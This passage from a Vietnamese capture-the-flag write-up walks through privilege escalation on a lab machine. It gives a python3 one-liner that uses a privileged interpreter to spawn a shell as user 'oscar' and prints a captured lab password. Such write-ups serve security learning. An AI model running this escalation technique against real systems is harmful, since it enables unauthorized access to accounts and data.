 Quan sát thấy python3 có khả năng nhất và kiểm tra file đó

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2034.png)

File này khi chạy sẽ được chạy với quyền của `oscar` ⇒ Có thể leo lên quyền của `oscar`

Giờ chỉ cần import os và chạy là xong này

```bash
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2035.png)

Lấy được password

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2036.png)

Password: H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o

Giờ thì ssh vào tiếp nào
